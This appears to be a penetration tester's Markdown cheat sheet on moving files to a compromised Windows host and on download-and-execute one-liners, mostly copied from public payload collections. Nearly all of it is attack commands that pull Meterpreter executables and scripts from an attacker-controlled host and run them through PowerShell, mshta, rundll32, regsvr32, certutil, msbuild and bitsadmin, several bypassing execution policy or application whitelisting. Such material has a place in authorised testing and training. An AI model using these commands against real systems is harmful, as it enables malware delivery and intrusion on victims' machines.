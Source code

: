 ## File Transfers
Some methods to transfer files from linux to windows. Thanks to this post
 
 https://blog.ropnop.com/transferring-files-from-kali-to-windows/

### Impacket smbserver

https://github.com/CoreSecurity/impacket

Run smbserver on kali with a share name and the folder you want 

```smbserver.py BLAH /root/shells```

Then from windows victim we can easily copy files
```
net view \\ 10.10.10.10
dir \\10.10.10.10\BLAH
copy \\10.10.10.10\BLAH\met443.exe .
```

You can also just execute things remotely:

```\\10.10.10.10\BLAH\met443.exe```

### Powershell
The long way is to create a .ps1 file to connect to our webserver and download something...
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.14.22:8000/wget.exe" >>wget.ps1
echo $file = "wget.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Then to run it from our regular windows shell:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
We can run a one line like this also in a normal windows shell to quickly download something...
```
powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.22/met443.exe','C:\Users\740i\Desktop\met443.exe')"
```
Powershell 3.0 and higher Cmdlet
```
Invoke-WebRequest "https://10.10.14.22:8000/met443.exe" -OutFile "C:\Windows\Temp\blah.exe"
```


### VBS
You may have to pipe whatever file through unix2dos before copying to a windows machine. Sometimes its easier to just copy the wget binary from /usr/share/windows-binaries.
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo strData = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
cho Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Then to run it 
```
cscript wget.vbs http://<IP>/<file> <outputfile>
```

### FTP 

For FTP make sure you install it first 
```
apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
```
You then can use a text file containing something like this to download a file...
```
open 10.10.14.22  
anonymous  
whatever  
binary  
get met443.exe  
bye  
```
Then do ```ftp -s:ftp_commands.txt ``` and it downloads with no interaction.

To echo it as a one liner do this...
```
echo open 10.10.14.22>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get met8888.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt  
```


### TFTP

 You can use the metasploit ```auxiliary/server/tftp``` server. Or run atftpd:
```
mkdir /tftp
atftpd --daemon --port 69 /tftp
```
Then from windows...
```
tftp -i 10.10.14.22 get met443.exe
```
 
### Debug.exe 
https://github.com/g0tmi1k/exe2hex

Need to test but this only works on 32 bit machines?




## Download and Execute
The rest are quick methods on windows to execute a payload. Taken from https://github.com/swisskyrepo/PayloadsAllTheThings

### Downloaded files location

- C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

### Powershell

From an HTTP server

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```

From a Webdav server

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

### Cmd

```powershell
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

### Cscript / Wscript

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

### Mshta

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```powershell
mshta http://webserver/payload.hta
```

```powershell
mshta \\webdavserver\folder\payload.hta
```

### Rundll32

```powershell
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

### Regasm / Regsvc @subTee

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

### Regsvr32 @subTee

```powershell
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```powershell
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

### Odbcconf

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

### Msbuild

```powershell
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil

```
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

### Bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```


### References

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
- https://github.com/milkdevil/UltimateAppLockerByPassList
